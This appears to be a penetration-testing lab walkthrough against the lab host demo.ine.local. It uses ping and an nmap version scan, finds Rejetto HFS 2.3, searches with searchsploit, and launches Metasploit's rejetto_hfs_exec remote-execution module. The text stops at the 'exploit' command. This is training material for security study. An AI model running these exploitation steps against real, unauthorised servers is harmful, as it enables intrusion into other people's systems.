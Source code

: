 #### Step 1: Check Connectivity to the Target

To verify if the target machine is reachable, use the **ping** command:

```bash
ping -c 4 demo.ine.local
```

- If the target responds, it indicates that the system is reachable.

#### Step 2: Port Scanning with Nmap

Perform a service version detection scan to identify vulnerable services on the target system using **Nmap**:

```bash
nmap -sV demo.ine.local
```

- The scan should reveal services running on open ports. In this case, port **80** is running **Rejetto HTTP File Server 2.3**.

#### Step 3: Searching for Exploits Using Searchsploit

With the information from the Nmap scan, search for known vulnerabilities affecting **Rejetto HTTP File Server 2.3** using **Searchsploit**:

```bash
searchsploit rejetto
```

- The **Searchsploit** output reveals an available **Metasploit Framework exploit module** that targets this version of **Rejetto**.

#### Step 4: Gaining Access with Metasploit

To exploit the vulnerability, start the **Metasploit Framework** and use the **Rejetto HFS exploit module**:

1. Start **Metasploit**:

    ```bash
    msfconsole
    ```

2. Load the **Rejetto HFS exploit module**:

    ```bash
    use exploit/windows/http/rejetto_hfs_exec
    ```

3. Set the target address:

    ```bash
    set RHOSTS demo.ine.local
    ```

4. Execute the exploit:

    ```bash
    exploit
    ```
